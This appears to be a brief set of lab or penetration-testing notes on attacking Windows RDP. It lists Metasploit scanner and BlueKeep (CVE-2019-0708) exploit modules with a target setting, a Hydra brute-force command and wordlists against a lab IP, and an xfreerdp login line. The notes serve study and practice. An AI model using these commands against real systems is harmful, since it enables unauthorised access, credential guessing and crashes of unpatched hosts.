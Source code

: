 # Metasploit:

- if rdp is not running on standard port 3389, 
- run auxiliary/scanner/rdp/rdp_scanner on suspected port, eg. 3333
  
  ![rdp_scanner output](./images/rdp-01.png)
  
- auxiliary/scanner/rdp/cve_2019_0708_bluekeep
- exploit/windows/rdp/cve_2019_0708_bluekeep_rce
	- set target 2
	- 2 : Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - Virtualbox 6)

# Hydra:

- brute-force
- hydra -L <userlist> -P <passlist> rdp://10.0.0.31 -s 3333
- wordlists:
	- /usr/share/wordlists/metasploit/unix_users.txt
	- /usr/share/wordlists/metasploit/unix_passwords.txt
	- -s specifies non-standard port
- xfreerdp /u:<user> /p:<pass> /v:10.0.0.31:3333

# BlueKeep Vuln (CVE-2019-0708)

- takes adv of vuln in windows rdp protocol
- allows attacker to gain access to chunk of kernel mem
- allows remote code execution at system level without auth
- affects XP, Vista, Win7, WinServ2008 & R2
- exploit can cause system crash
